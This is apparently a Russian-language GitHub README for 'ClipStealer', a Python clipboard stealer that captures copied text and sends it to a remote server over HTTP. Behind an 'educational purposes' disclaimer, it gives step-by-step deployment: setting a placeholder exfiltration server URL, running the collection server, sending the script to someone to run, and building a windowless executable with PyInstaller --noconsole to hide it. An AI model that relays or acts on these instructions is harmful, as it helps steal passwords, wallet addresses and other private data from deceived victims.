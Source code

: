 CleapStealer - вирус, копирующий всю информацию из буфера обмена.

## Описание

Программа позволяет перехватывать данные из буфера обмена и отправлять их на удалённый сервер. Этот проект создан исключительно для образовательных целей, чтобы понять, как подобные механизмы работают, и как защититься от них.

## Возможности

- Мониторинг буфера обмена.
- Сохранение текста, копируемого пользователем.
- Отправка данных на сервер через HTTP-запросы.

## Установка и запуск

### Шаг 1: Скачивание

Клонируйте репозиторий на своё устройство:

```bash
git clone https://github.com/Filinsl/ClipStealer.git
```

### Шаг 2: Установка зависимостей

Перейдите в директорию проекта и установите зависимости:

```bash
cd ClipStealer
pip install -r requirements.txt
```

### Шаг 3: Редактирование 
Замените  ссылку в файле ClipStealer.py на Url сервера для отправки запроса
```
SERVER_URL = 'ezample_url/api/clipboard'  # Замените на ваш адрес
```
### Шаг 4: Запуск сервера

Запустите сервер:

```bash
python server.py
```



### Шаг 5: Отправка файла
Вы можете отправить кому то файл ClipStealer.py и попросить запустить через консоль

```bash
python ClipStealer.py
```
Или вы можете собрать exe файл, например с помощью PyInstaller

```bash
pyinstaller --onefile --noconsole ClipStealer.py
```

## Отказ от ответсвенности

Этот проект предоставлен исключительно для образовательных целей. Любое несанкционированное использование кода может быть наказуемо законом.

